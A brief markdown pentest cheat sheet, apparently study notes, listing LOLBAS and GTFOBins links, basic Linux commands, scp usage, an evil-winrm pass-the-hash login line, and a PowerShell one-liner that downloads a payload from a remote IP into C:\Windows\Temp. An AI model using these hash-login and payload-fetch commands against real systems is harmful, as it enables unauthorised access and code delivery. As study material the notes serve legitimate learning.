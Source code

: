 ## Binary expoitation

[https://lolbas-project.github.io/#](https://lolbas-project.github.io/#)   #for window similar to GTFObin

[https://gtfobins.github.io/](https://gtfobins.github.io/)              #for linux

## LS
```Bash
ls -la #list all file
```
## chmod

Example `chmod 777 #file` to give `rwx rwx rwx` permission

Which command can we use to achieve the permissions of `rwx --x --x`?

`chmod 711 file`

## Check systemctl

`systemctl list-units --type=service --state=running`

## evil-winrm

`evil-winrm -i {IP} -u {Username} -H {hash}`

## Upload a payload on Powershell

```bash
powershell -c "$client = New-Object System.Net.WebClient; $client.DownloadFile('http://10.10.10.10:8000/test.txt', 'C:\Windows\Temp\test.txt')"
```

## scp (download file)

Copy something from another system to this system: 

`scp username@remotehost.edu:foobar.txt /home/kali`

Copy something from this system to some other system:

`scp /path/to/local/file username@hostname:/path/to/remote/file`

Copy something from some system to some other system:

`scp username1@hostname1:/path/to/file username2@hostname2:/path/to/other/file`

### scp from EC2

`scp -i key_file.pem username@remotehost.edu:/remote/dir/foobar.txt /local/dir`

## ssh syntax

